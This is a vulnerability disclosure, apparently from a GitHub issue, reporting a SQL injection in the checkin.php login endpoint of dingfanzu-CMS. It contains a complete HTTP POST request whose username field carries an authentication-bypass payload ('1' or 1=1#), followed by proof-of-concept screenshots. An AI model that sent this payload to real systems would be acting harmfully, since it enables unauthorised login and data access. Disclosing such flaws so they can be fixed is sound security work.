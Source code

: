 # dingfanzu-CMS checkin.php username SQL-inject

**Exploit Title: dingfanzu-CMS checkin.php username SQL inject**

**Exploit Author: webraybtl@webray.com.cn inc**

**Vendor Homepage: https://github.com/geeeeeeeek/dingfanzu**

**Software Link: https://github.com/geeeeeeeek/dingfanzu**

**CMSName: dingfanzu-CMS**

**Tested on: Windows, Apache ,Mysql**

**Description**

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection dingfanzu-CMS does not filter the content correctly at the "checkin.php" username module, resulting in the generation of SQL injection.

    Payload used:

```
POST /ajax/checkin.php HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_9bb651f2bb5622d49b0299560d6559cd=1724296185; Hm_lpvt_9bb651f2bb5622d49b0299560d6559cd=1724296185; HMACCOUNT=972263C9F6177EA8; PHPSESSID=6tpdrcitemfg08ghc7vtcjvuo7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

username=1' or 1=1#&password=1
```

## Proof of Concept

![image](https://github.com/user-attachments/assets/5644293f-814a-498b-86b8-2806239cf810)

![image](https://github.com/user-attachments/assets/61414c38-3ac4-4bd9-9aa2-53d3add113e0)

![image](https://github.com/user-attachments/assets/24795060-dbc5-4cc5-9edb-ea2f5a91121d)

